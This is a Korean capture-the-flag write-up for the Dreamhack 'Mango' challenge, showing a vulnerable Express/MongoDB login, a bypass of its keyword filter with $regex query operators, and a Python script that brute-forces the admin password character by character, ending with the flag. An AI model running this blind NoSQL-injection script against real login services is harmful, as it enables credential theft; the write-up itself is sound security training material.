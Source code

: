 https://honey-push-30b.notion.site/Mango-f2ca572187fd46a0aaec80066c37a8b0

# 문제 접근

![문제.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5d6cd350-636a-4169-bde1-c7e361ab2661/.png)

Mango 문제의 접속 정보와 문제 설명 및 문제파일을 다운로드 받을 수 있다. main.js 파일을 보면 아래 코드를 볼 수 있다.

```python
const express = require('express');
const app = express();

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}

app.get('/login', function(req, res) {
    if(filter(req.query)){
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});

app.get('/', function(req, res) {
    res.send('/login?uid=guest&upw=guest');
});

app.listen(8000, '0.0.0.0');
```

위 코드에서 다음과 같은 정보를 알 수 있다.

1. mongoose를 사용하여 db에 접근하고 있다. 이 때 mongoose는 mongo db와 연결할 때 사용하는 것이므로 mongo db를 사용하고 있음을 알 수 있다.
2. uid가 admin일 때의 비밀번호는 DH이후 괄호 사이에 32글자의 알파벳과 숫자로 이루어진 것을 알 수 있다.
3. 요청 하는 값의 로그인이 성공하면 응답으로 result[’uid’]가 나오고 실패하면 undefined가 나온다. 즉 admin으로 로그인이 성공한다면 응답으로 admin이 나올 것이다.
4. 요청을 보낼 때 uid와 upw는 get방식으로 보낼 수 있으며 이 값은 filter만 통과하면 추가 검증이 존재하지 않는다. 이 때 filter는 admin ,dh,admi이다.

# 문제 풀이

![첫페이지.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/89d36787-3070-4051-b245-94f1b67682aa/.png)

접속하면 위와 같은 화면을 볼 수 있으며 uid값과 upw 값을 위와 같은 get형식으로 보낼 수 있는 형태다.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9b58d13b-cd55-48d0-9105-c0c10314222a/Untitled.png)

그래서 그대로 입력을 해보면 guest로 로그인이 된 것을 알 수 있다. 하지만 우리가 찾아야 하는 것은 uid가 admin일 때의 upw 값이다. 

근데 uid에 그대로 admin을 쓰면 filter로 인해 필터링 되기 때문에 다른 방법을 찾아봤다.

[https://velopert.com/479](https://velopert.com/479) 에서 찾은 비교 연산자와 정규식 연산자는 필터링이 되지 않기 때문에 이 방식으로 접근했다.

- 비교 연산자 및 정규식 연산자
    
    # **비교(Comparison) 연산자**
    
    | operator | 설명 |
    | --- | --- |
    | $eq | (equals) 주어진 값과 일치하는 값 |
    | $gt | (greater than) 주어진 값보다 큰 값 |
    | $gte | (greather than or equals) 주어진 값보다 크거나 같은 값 |
    | $lt | (less than) 주어진 값보다 작은 값 |
    | $lte | (less than or equals) 주어진 값보다 작거나 같은 값 |
    | $ne | (not equal) 주어진 값과 일치하지 않는 값 |
    | $in | 주어진 배열 안에 속하는 값 |
    | $nin | 주어빈 배열 안에 속하지 않는 값 |
    
    ****$regex 연산자****
    
    ```
    { <field>: { $regex: /pattern/, $options: '<options>' } }
    { <field>: { $regex: 'pattern', $options: '<options>' } }
    { <field>: { $regex: /pattern/<options> } }
    { <field>: /pattern/<options> }
    ```
    
    { “title” : /article0[1-2]/ }
    

그러면 이제 정규식을 이용해서 접근해보자

$regex를 이용하면 정규식을 사용할 수 있는데 정규식에 대해서 정확하게 아는 것이 아니기 때문에 다음 사이트를 참고했다.

[https://yurimkoo.github.io/analytics/2019/10/26/regular_expression.html](https://yurimkoo.github.io/analytics/2019/10/26/regular_expression.html)

이를 사용하면 테스트를 할 수 있다. 

uid[$regex]=^adm&upw[$regex]=^D 로 해보자. 이 의미는 uid가 adm으로 시작하며, upw가 D로 시작하는 경우를 의미한다. 이게 참이라면 admin이 리턴될 것이다.

![성공.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9276140e-6683-4bff-b269-101d1f0b7306/.png)

admin이 리턴되는 것을 봐서 필터를 우회하여 성공한 것을 알 수 있다. 그럼 이제 찾아내야 할 것은 upw의 최종값인데 upw에서도 필터링 되는 것이 dh이므로 D.{로 시작하여 알파벳과 숫자를 하나하나 대입하면서 리턴값이 admin이 나오면 참이므로 32글자를 대입해 보면서 찾아내면 된다. 

query=f"http://host3.dreamhack.games:10182/login?uid[$regex]=^adm&upw[$regex]=^D.{{{result}{ch}" 쿼리는 이렇게 작성했다.

f-string 포맷의 경우 내가 원하는 변수를 집어넣을때는 {변수명} 으로 집어넣다보니 {를 넣어주려면 {{로 두번 써줘야한다. 따라서 upw[$regex]=^D.{{{result}{ch} 는 조금더 보기 쉽게 표현하자면

^D.{+result+ch

```python
import requests

menu="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"

result=''
for i in range(32):
    for ch in menu:
        query=f"http://host3.dreamhack.games:10182/login?uid[$regex]=^adm&upw[$regex]=^D.{{{result}{ch}"#{가 나오게 하려면 {를 두개쓰면 됨
        response=requests.get(query)
        if "admin" in response.text:
            result=result+ch
            break
        print("DH{"+result+"}")
print("DH{"+result+"}")
```

이 코드로 대신 노가다를 뛰면 결과값인 DH를 얻을 수 있다.

![플래그.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/257383ba-1779-4119-9a31-e06e5d943fd7/.png)

DH{89e50fa6fafe2604e33c0ba05843d3df} 를 얻을수 있다.
